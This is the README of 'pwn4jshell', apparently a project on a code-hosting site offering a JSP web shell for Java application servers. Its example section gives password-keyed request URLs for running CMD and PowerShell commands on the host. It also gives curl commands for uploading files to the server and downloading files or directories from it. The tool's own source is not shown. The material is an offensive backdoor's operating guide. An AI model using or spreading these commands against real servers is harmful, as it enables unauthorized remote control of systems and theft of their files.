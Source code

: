 # pwn4jshell
Java Web shell project

Idea of creating, webshell with suport to old versions of java. 
Building it in jsp means the code compilation will happend at the server side
with the server compiler, making it easyer and less likely to run into
compatibility issues. 
Other than api... and sintax things should be easy. 


## Credits
Some of the code in this project is based on work from other ppl.   
For file upload based on Boris Von Leosch.

## Example

### Get basic host information
http://{ip}:8080/pwn4jshell/shell.jsp?pass=key

### Execute CMD command Execution
http://{ip}:8080/pwn4jshell/?pass=key&action=exec&args=dir

### Powershell Command execution 
http://{ip}:8080/pwn4jshell/?pass=key&action=power&args=dir

### Upload a file 
curl -X POST -F "file=@{file to upload}" "http://{ip}:8080/?pass=key&action=up&path={destination}"

if the path is not set the file will be placed in the same dir as the shell.jsp

## Download file or directory
curl "http://{ip}:8080/pwn4jshell/?pass=key&action=down&path={pathToFile}&args=shell.jsp" 

same as upload if path is not set will try to download the file from the same dir as shell.jsp 